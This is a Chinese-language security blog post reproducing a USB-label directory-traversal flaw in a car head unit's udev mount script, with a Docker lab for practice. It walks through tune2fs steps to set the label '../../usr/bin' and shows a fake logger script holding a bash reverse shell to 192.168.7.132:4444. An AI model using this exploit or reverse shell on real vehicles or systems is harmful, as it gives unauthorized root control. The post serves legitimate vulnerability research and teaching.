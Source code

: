 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [delikely.github.io](https://delikely.github.io/2021/06/04/U%E7%9B%98%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A%E8%8E%B7%E5%8F%96%E8%BD%A6%E6%9C%BASHELL/)

> U 盘目录穿越获取车机 SHELL（含模拟环境）利用 U 盘 Getshell 是不是还停留在 Badusb、病毒 U 盘上，这次就来看一个不一样的。

[](#U盘目录穿越获取车机SHELL（含模拟环境） "U盘目录穿越获取车机SHELL（含模拟环境）")U 盘目录穿越获取车机 SHELL（含模拟环境）
----------------------------------------------------------------------------

利用 U 盘 Getshell 是不是还停留在 Badusb、病毒 U 盘上，这次就来看一个不一样的。

前段时间在浏览 Github 中看到了一个[日产车机破解](https://github.com/ea/bosch_headunit_root) 项目，其中有利用 U 盘获取车机 SHELL 的骚操作。感觉挺有意思的，花了点时间找到了车机固件，并复现了漏洞。顺手写了一个 Dockerfile 供大家一起玩耍。

### [](#目录穿越 "目录穿越")目录穿越

目录穿越大多发生在 WEB 中，没想到竟然还能出现在硬件设备中。

车机的操作系统为 Linux，U 盘等外设热插拔由 udev 实现。udev 是 Linux 内核的设备管理器，配置文件在 /etc/udev 下 。udev 会根据设备的 UUID 和 LABEL，构造挂载点。UUID 是块设备的唯一标识符，LAEBL 是块设备的一个标签。

车机中自定义了 U 盘挂载脚本，在 udev 配置文件 `/etc/udev/rules.d/local.rules` 中指定 block 设备由脚本 `/etc/udev/scripts/mount.sh`处理。

```
SUBSYSTEM=="block", ACTION=="add",    KERNEL=="sd*", ENV{ID_FS_TYPE}=="?*", \
		    ENV{DKD_PARTITION_TABLE}!="1", \
		    ENV{DKD_PRESENTATION_HIDE}!="1", \
		    RUN+="/etc/udev/scripts/mount.sh", RUN+="/etc/udev/scripts/trace_proxy.sh"
SUBSYSTEM=="block", ACTION=="remove", KERNEL=="sd*", ENV{ID_FS_TYPE}=="?*", RUN+="/etc/udev/scripts/mount.sh", RUN+="/etc/udev/scripts/trace_proxy.sh"
SUBSYSTEM=="block", ACTION=="change", KERNEL=="sd*", ENV{DEVTYPE}=="disk",  RUN+="/etc/udev/scripts/mount.sh"
```

问题就出现 mount.sh 脚本中，使用 `../../`可实现路径穿越，获取系统权限。

```
MOUNT="/bin/mount"
UMOUNT="/bin/umount"
MOUNTPT="/dev/media"
MOUNTDB="/tmp/.automount"

automount() {
    if [ -z "${ID_FS_TYPE}" ]; then
	logger -p user.err "mount.sh/automount" "$DEVNAME has no filesystem, not mounting"
	return
    fi

    
    
    if [ -n "${ID_FS_UUID}" ]; then
	mountdir=${ID_FS_UUID}
    elif [ -n "${ID_FS_LABEL}" ]; then
	mountdir=${ID_FS_LABEL}
    else
	mountdir="disk"
	while [ -d $MOUNTPT/$mountdir ]; do
	    mountdir="${mountdir}_"
	done
    fi

    
    ! test -d "$MOUNTPT/$mountdir" && mkdir -p "$MOUNTPT/$mountdir"

    
    if [ -n ${ID_FS_TYPE} ]
    then
      if [ "vfat" = ${ID_FS_TYPE} ]
      then
        IOCHARSET=",utf8=1"
      elif [ "ntfs" = ${ID_FS_TYPE} ]
      then
        IOCHARSET=",nls=utf8"
      fi
    fi

    result=$($MOUNT -t ${ID_FS_TYPE} -o sync,ro$IOCHARSET $DEVNAME "$MOUNTPT/$mountdir" 2>&1)
```

现在来详细看一下自动挂载函数 automount，首先判断 U 盘的文件系统 ID_FS_TYPE，可识别就继续执行，否则就退出。接下来的一段是用来拼接构造挂载点的，首先判断设备的 UUID，然后判断设备的 LABEL，哪一个不为空就用哪一个作为设备挂载的文件名，再拼接上 /dev/media 就是形成了最终的挂载点。最后使用 mount 命令将 U 盘挂载到刚才构造的这个路径上。

问题就出在挂载路径上，由于设备的 UUID 和 LABEL 都是能手动修改的。如果在 $mountdir 中引入相对路径，那就能实现路径穿越。然后通过路径穿越劫持系统中的程序，从而实现任意命令执行。UUID 中不能使用点号，所以就只能在 LABEL 上作文章了。接着往下看脚本。

```
status=$?
if [ ${status} -ne 0 ]; then
logger -p user.err "mount.sh/automount" "$MOUNT -t ${ID_FS_TYPE} -o sync,ro $DEVNAME \"$MOUNTPT/$mountdir\" failed: ${result}"
rm_dir "$MOUNTPT/$mountdir"
else
logger "mount.sh/automount" "mount [$MOUNTPT/$mountdir] with type ${ID_FS_TYPE} successful"
mkdir -p ${MOUNTDB}
echo -n "$MOUNTPT/$mountdir" > "${MOUNTDB}/$devname"
fi
```

U 盘挂载好之后，还会调用 logger 命令。那就骚操作就来了，将 UUID 设置为空，LABEL 设置为 `../usr/bin`就能劫持原来的 `/usr/bin/`下的应用程序。logger 是一个不错的选择，在其中写入命令。U 盘自动挂载时，就会自动执行。下面来看看具体怎么利用。

### [](#漏洞利用 "漏洞利用")漏洞利用

首先准备一个 EXT4 格式的 U 盘。

blkid 命令用于查看设备的 UUID、LABEL 等信息。为什么没有看到设备的 LABEL 呢？ 当某个属性为空时就会隐藏。

```
root@kali:~/automotive
/dev/sdb1: UUID="cf01cd66-7f32-4713-996a-3af878aba827" BLOCK_SIZE="4096" TYPE="ext4"
```

EXT4 格式的 U 盘默认状态下，只有 UUID，LABEL 为空。这两个值都可以使用 tune2fs 修改。

1.  置空 UUID
    
    ```
    root@kali:~/automotive
    tune2fs 1.46.2 (28-Feb-2021)
    Setting the UUID on this filesystem could take some time.
    Proceed anyway (or wait 5 seconds to proceed) ? (y,N) y
    ```
    
2.  设置 LABEL
    
    ```
    root@kali:~/automotive
    tune2fs 1.46.2 (28-Feb-2021)
    ```
    
    UUID 和 LABEL 修改完成，使用 blkid 查看修改后的结果，准确无误。
    
    ```
    root@kali:~/automotive
    /dev/sdc1: LABEL="../../usr/bin" BLOCK_SIZE="4096" TYPE="ext4"
    ```
    
3.  设置反弹 shell
    
    手动挂载 U 盘，在 U 盘中创建一个名为 logger 的 shell 脚本，内容为反弹 shell 。一切设置好之后移除 U 盘。
    
    ```
    root@kali:~/automotive
    root@kali:~/automotive
    root@kali:~/automotive
    root@kali:/media/root
    #!/bin/bash
    /bin/bash -i >& /dev/tcp/192.168.7.132/4444 0>&1
    root@kali:/media/root
    root@kali:/media/root
    root@kali:~/automotive
    ```
    
4.  将特制的 U 盘插入模拟车机
    
    手里并没有日产的车（PS. 我与 Tesla 漏洞就相距一台 Tesla），而此时手痒怎么办。幸好我找到了固件，搭建了一个模拟环境。
    
    下载之前制作好的 [Dockerfile](https://github.com/delikely/VulnerableFiles/blob/main/Automotive/bosch%20headunit%20root/Dockerfile)，然后使用 docker build、docker run 搭建起车机模拟环境。
    
    ```
    root@kali:~/automotive
    root@kali:~/automotive
    Sending build context to Docker daemon  86.02kB
    Step 1/4 : FROM ubuntu:12.04
     ---> 5b117edd0b76
    Step 2/4 : WORKDIR /etc/
     ---> Using cache
     ---> 22a68ab4c71d
    root@kali:~/automotive
    ee7059240fcea0e24bb01ebdbde51be1198f15b452af42f101307f8684
    ```
    
    使用上述命令创建好 Docker 后，虚拟车机就运行起来了。现在只需要插入之前准备好的 U 盘就能拿到反弹 Shell。
    
    ![](https://delikely.github.io/2021/06/04/U%E7%9B%98%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A%E8%8E%B7%E5%8F%96%E8%BD%A6%E6%9C%BASHELL/image-20210506220413173.png)
    
    注：由于劫持了 /usr/bin/ 目录，很多命令不能用了。若想使用，那就得提前准备，把原来 / usr/bin 目录的文件（或相同架构的可执行文件）拷贝到 U 盘根目录。
    

### [](#总结 "总结")总结

这个漏洞还挺有意思的，利用 U 盘 LABEL 目录遍历劫持 /usr/bin 执行任意命令。之前看过另外一个 [Ubuntu 提权漏洞](https://securitylab.github.com/research/Ubuntu-gdm3-accountsservice-LPE/)：利用软件链接提权，也让人直呼精彩。这次学到了新姿势，还搭建智能网联车漏洞的第一个模拟环境。后期会持续维护（新增）车联网漏洞模拟环境，欢迎有兴趣的小伙伴一起共建。

### [](#参考 "参考")参考

*   [bosch_headunit_root](https://github.com/ea/bosch_headunit_root)
*   [How to change filesystem UUID (2 same UUID)?](https://unix.stackexchange.com/questions/12858/how-to-change-filesystem-uuid-2-same-uuid)
*   [How to get root on Ubuntu 20.04 by pretending nobody’s /home](https://securitylab.github.com/research/Ubuntu-gdm3-accountsservice-LPE/)